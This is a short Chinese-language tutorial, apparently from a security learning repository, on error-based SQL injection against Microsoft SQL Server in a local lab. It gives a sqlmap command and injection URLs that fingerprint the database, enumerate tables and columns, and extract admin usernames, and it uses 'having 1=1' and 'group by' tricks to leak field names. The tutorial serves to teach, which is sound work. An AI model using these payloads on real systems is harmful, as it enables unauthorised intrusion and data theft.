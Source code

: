 # 0x00 第一个注入

建议大家可以本地搭建后用sqlmap注入查看他的注入语句

```
sqlmap -u "http://192.168.130.137/1.aspx?id=1"  --is-dba -v3

```

判断当前数据库

```
http://192.168.130.137/1.aspx?id=1'and db_name()>0;--

```

![mysql](./img/1.4.1.png)


爆表名

```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--

```

![mysql](./img/1.4.2.png)

爆列名

```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--

```

![mysql](./img/1.4.3.png)

爆数据


```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 username from admin);--

```

![mysql](./img/1.4.5.png)

因为mssql没有limit 所以只能用top 加上后面的判断来遍历数据


# 0x02 其他用法

当然查询数据库的所有表你还可以使用 `INFORMATION_SCHEMA.TABLES` 

```
select * from INFORMATION_SCHEMA.TABLES

select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'

http://192.168.130.137/1.aspx?id=1 and 1=(select top 1 table_name from information_schema.tables
);--

```

![mysql](./img/1.4.4.png)


我们要判断当前表名和列名 也可以使用 `having 1=1` 和 `group by`

```
http://192.168.130.137/1.aspx?id=1 having 1=1

```

![mysql](./img/1.4.6.png)

爆出当前表和字段

```
http://192.168.130.137/1.aspx?id=1 group by info.id,info.name having 1=1

```

![mysql](./img/1.4.7.png)

爆出所有的字段


# 0x03 文末


#### 本文如有错误，请及时提醒，避免误导他人

BY 404

